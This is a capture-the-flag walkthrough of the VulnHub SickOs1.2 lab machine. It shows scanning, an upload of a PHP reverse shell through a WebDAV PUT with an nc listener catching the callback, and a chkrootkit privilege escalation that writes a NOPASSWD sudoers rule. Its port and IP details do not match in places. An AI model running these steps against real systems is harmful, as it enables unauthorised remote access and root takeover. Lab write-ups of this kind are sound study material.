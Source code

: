 

# Boot2root: Sickos1.2

This is my walk-through of the Sickos1.2 challenge posted on vulnhub.com All penetration testing on this image was preformed in an isolated lab environment. 

### Step 1: I always start with a full nmap scan.

```bash
nmap -A -T4 -p- 192.168.2.9
```

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2018-05-11 19:42 CEST
Nmap scan report for 192.168.2.9
Host is up (0.0044s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 94.63 seconds
```

The nmap scan show me two open ports 22 and 80. First i will try to access port 80 in my browser.

![webpage](/home/firewatch/Documents/Website/assets/images/webpage.png)

Then i start using Nikto Web Scanner. Nikto Web Scanner is a Web server  scanner that tests Web servers for dangerous files/CGIs, outdated server software and other problems. It performs generic and server type  specific checks. It also captures and prints any cookies received.

```bash
nikto -h http://192.168.2.9/
```

```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.2.9
+ Target Hostname:    192.168.2.9
+ Target Port:        80
+ Start Time:         2018-05-11 19:53:37 (GMT2)
---------------------------------------------------------------------------
+ Server: lighttpd/1.4.28
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ 6544 items checked: 0 error(s) and 1 item(s) reported on remote host
+ End Time:           2018-05-11 19:53:47 (GMT2) (10 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```



Unfortunate Nikto Web Scanner found nothing. So i started to scan for directories using DIRB. DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack  against a web server and analyzing the response.

```bash
dirb http://192.168.2.9/ /usr/share/dirb/wordlists/big.txt
```

```bash
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri May 11 19:59:42 2018
URL_BASE: http://192.168.2.9/
WORDLIST_FILES: /usr/share/dirb/wordlists/big.txt

-----------------

GENERATED WORDS: 20458                                                         

---- Scanning URL: http://192.168.2.9/ ----
==> DIRECTORY: http://192.168.2.9/test/                                               
+ http://192.168.2.9/~sys~ (CODE:403|SIZE:345)                                        
                                                                                      
---- Entering directory: http://192.168.2.9/test/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri May 11 19:59:56 2018
DOWNLOADED: 20458 - FOUND: 1
```

I've found http://192.168.2.9/test/ directory. So i tried to access it.

![](/home/firewatch/Documents/Website/assets/images/test-directory.png)

After that i checked if there are any vulnerabilities for Lighthttpd with Searchsploit. with no results.

```bash
searchsploit lighthttpd
```

```bash
Exploits: No Result
Shellcodes: No Result
```

After that i used cURL to check for avaible HHTP methods for 192.168.2.9/test by doing the following:

```bash
curl -v -X OPTIONS http://192.168.2.9/test/
```

```bash
*   Trying 192.168.2.9...
* TCP_NODELAY set
* Connected to 192.168.2.9 (192.168.2.9) port 80 (#0)
> OPTIONS /test/ HTTP/1.1
> Host: 192.168.2.9
> User-Agent: curl/7.58.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< DAV: 1,2
< MS-Author-Via: DAV
< Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
< Allow: OPTIONS, GET, HEAD, POST
< Content-Length: 0
< Date: Fri, 11 May 2018 18:31:29 GMT
< Server: lighttpd/1.4.28
< 
```

I see the PUT method is allowed for this directory. So i'm going to try upload a reverse shell. I downloaded a [PHP-Reverse-Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from Pentestmonkey. First i have changed the IP address in the PHP script to the IP i want the shell thrown back to.

```php
$ip = '192.168.2.6';  // CHANGE THIS
```

```php
$port = 8080;       // CHANGE THIS
```

Then i started a TCP listener on a host and port that will be accessible by the web  server.  I used the same port here as specified in the script (1234 in  this example):

```bash
nc -v -n -l -p 1234
```

After that I tried to upload the script by using a cURL command.

```bash
curl -v -T php-reverse-shell.php --url http://192.168.2.9/test/ -0
```

And it worked to get a reverse shell.

```bash
listening on [any] 8080 ...
connect to [192.168.2.8] from (UNKNOWN) [192.168.2.9] 45488
Linux ubuntu 3.11.0-15-generic #25~precise1-Ubuntu SMP Thu Jan 30 17:42:40 UTC 2014 i686 i686 i386 GNU/Linux
 10:32:56 up 16 min,  0 users,  load average: 0.02, 0.08, 0.12
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Now it is time to enumerate the machine. Enumeration is the first attack on target network, enumeration is the process to gather the information about a target machine by actively connecting to it.

```bash
ls -l /etc/cron.daily
```

```bash
total 60
-rwxr-xr-x 1 root root 15399 Nov 15  2013 apt
-rwxr-xr-x 1 root root   314 Apr 18  2013 aptitude
-rwxr-xr-x 1 root root   502 Mar 31  2012 bsdmainutils
-rwxr-xr-x 1 root root  2032 Jun  4  2014 chkrootkit
-rwxr-xr-x 1 root root   256 Oct 14  2013 dpkg
-rwxr-xr-x 1 root root   338 Dec 20  2011 lighttpd
-rwxr-xr-x 1 root root   372 Oct  4  2011 logrotate
-rwxr-xr-x 1 root root  1365 Dec 28  2012 man-db
-rwxr-xr-x 1 root root   606 Aug 17  2011 mlocate
-rwxr-xr-x 1 root root   249 Sep 12  2012 passwd
-rwxr-xr-x 1 root root  2417 Jul  1  2011 popularity-contest
-rwxr-xr-x 1 root root  2947 Jun 19  2012 standard
$ 
```

After enumeration, find the system has chkrootkit:

```bash
dpkg -l | grep chkrootkit
```

```bash
rc  chkrootkit                      0.49-4ubuntu1.1                   rootkit detector
```

I found that the chkrootkit is vulnerable and can give root access by adding a file to `/tmp` called `update`. Add the following to contain shell command that add **sudo su** to user www-data

```bash
echo 'echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
```

Now change permission by using:

```bash
chmod +x /tmp/update
```

Now you should be able to get root access.

```bash
sudo su
```

```bash
whoami
```

```
root
```

```bash
cd /root
```

```bash
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
```

```
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```

